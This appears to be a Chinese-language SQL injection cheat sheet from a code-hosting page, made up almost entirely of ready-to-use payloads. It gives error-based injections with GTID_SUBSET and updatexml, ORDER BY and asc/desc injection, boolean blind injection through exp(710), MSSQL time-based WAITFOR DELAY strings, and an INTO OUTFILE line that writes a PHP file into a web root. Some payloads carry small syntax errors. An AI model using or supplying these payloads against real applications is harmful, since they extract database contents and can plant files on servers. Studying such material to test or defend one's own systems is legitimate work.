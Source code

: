 [博客](http://sqlwiki.batmanfuture.cn/)

https://www.jianshu.com/p/bc35f8dd4f7c

https://www.jianshu.com/p/fcae21926e5c

函数手册

mssql:https://cankaoshouce.com/sql/sqlserver-function.html

mysql:https://www.sjkjc.com/mysql-ref/ascii/



###### GTID_SUBSET

~~~http
字符串
	字符型：1) and GTID_SUBSET(concat(char(126),(database())),5201)-- test
	数字型：1 and GTID_SUBSET(concat(char(126),(database())),5201)-- test
~~~

![](https://s3.bmp.ovh/imgs/2022/10/23/5b4a240b49b69280.png)



~~~http
在SQL语句中有asc和desc的出现，他们的作用是对某个标签按照从小到大或者从大到小排序，如果我们请求包中发现了asc和desc，我们可以尝试在后面增加内容判断SQL注入
在mysql当中，如果select 1/0，虽然会警告，但依旧会返回正常内容，但是在oracle中，1/0会报错，并不能返回，相当于一个变种的报错判断

排序注入
SELECT * FROM ty_user ORDER BY id-(updatexml(1,concat(0x7e,user()),0));
desc = -(updatexml(1,concat(0x7e,user()),0))


select * from ty_user where id= '1' LIMIT 0,1 INTO OUTFILE 'D:\\phpStudy\\phpstudy_pro\\WWW\\123456aaaa.php' LINES TERMINATED BY "<?php phpinfo();?>";

SELECT * FROM ty_user ORDER BY if(substr(database(),1,1)='w',id,exp(710));

~~~



~~~http
mysql:
	'||if(substr(database(),1,1)='x',1,exp(710))||'
	"||if(substr(database(),1,1)='x',1,exp(710))||"
	也就是user()的第1位如果是x那么正常，反之报错
	
1'if(ascii(substring(db_name(),1,1)))>50%20WAITFOR%20DELAY%20'0:0:5'--%20
~~~



~~~http
数字型布尔盲注：
||ascii(if(substring(db_name(),1,1)))=10,1,0)||
1/if(ascii(substr(database(),1,1))=116,1,exp(710))

userName=1'if(ascii(substring(db_name(),1,1)))>50%20WAITFOR%20DELAY%20'0:0:5'--%20

~~~
